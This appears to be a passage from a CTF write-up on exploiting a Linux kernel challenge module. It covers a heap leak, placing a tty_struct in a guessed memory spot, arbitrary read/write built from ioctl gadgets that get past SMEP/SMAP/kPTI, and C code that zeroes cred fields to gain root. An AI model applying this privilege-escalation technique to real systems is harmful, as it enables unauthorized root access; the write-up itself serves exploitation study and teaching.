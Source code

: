 So, our exploit process becomes like the following.

```
1. Leak a heap address using the buffer over read.
2. Mmap 32*32*32 pages in userspace.
3. Overwrite the freelist fd to a 'guessed address' using buffer over write.
4. Open /dev/ptmx => tty_struct will be allocated at 'guessed address'
```

We can scan all mmap'ed pages to check if there are any non zero-pages to locate the `tty_struct`. Afterwards, reading/writing from that page will have the same effect as reading/writing from the `tty_struct` in kernel space.

### Leaking kernel base
By reading from offset 0x18, we can leak the `fops` pointer, and using this we can calculate the kernel base.

### Getting RIP control
Since we know a heap address whose contents are controllable, we can forge a fake `fops` pointer there. By filling `memo` with 0xdeadbeef and setting `fops` to the address of `memo` and closing the master tty's file descriptor we can get a crash at 0xdeadbeef.

### Getting arbitrary read/write
**This is the main and most important part**. In the challenge, SMEP/SMAP/kPTI were all enabled. Therefore, we can't jump to code in userspace or perform a kernel ROP/JOP. However, it is possible obtain an arbitrary read/write in a unique way.

The signature of the `ioctl` function is the following.
```c
unsigned int ioctl(struct tty_struct *tty, unsigned int cmd, unsigned long arg)
```

The last 2 arguments, `cmd` and `arg` are completely user controlled, although `cmd` is 4 bytes only. Therefore overwriting `ioctl` function pointer with `mov dword ptr [rdx], esi; ret;` can give us an arbitrary 4 byte write.

Similarly, we can obtain a 4 byte arbtirary read by overwriting `ioctl` function pointer with `mov rax, qword ptr [rdx + 0x28]; ret;`. We can set arg to `<address we want to read from> - 0x28`, and we will get 4 bytes stored at that address as the return value of `ioctl`.

Since we want to use both of these primitives, we need to modify `fops` multiple times.

### Getting uid0
Starting from `init_task`, we can iterate all the tasks until the `pid` of the `task_struct` matches the pid obtained by `getpid()`. Then, we can overwrite `uid`, `guid`, `euid` of `cred` and become root.

```c
unsigned long cur = init_task, cred;
    unsigned int pid;
    unsigned int this_pid = getpid();
    while(1) {
        pid = read32(cur + PID_OFFSET);
        if (pid == this_pid) {
            cred = read64(cur + CRED_OFFSET);
            LOG("Found current process(pid=%d)'s cred struct %p\n", pid, (void *)cred);
            LOG("original uid=%d, gid=%d. now escalating to root\n", read32(cred + 4), read32(cred + 8));
            write64(0x0, cred + 4);
            write64(0x0, cred + 12);
            write64(0x0, cred + 20);
            write64(0x0, cred + 28);
            LOG("now i am uid=%d\n", getuid());
            break;
        }
        cur = read64(cur + TASKS_OFFSET) - TASKS_OFFSET;
    }
```
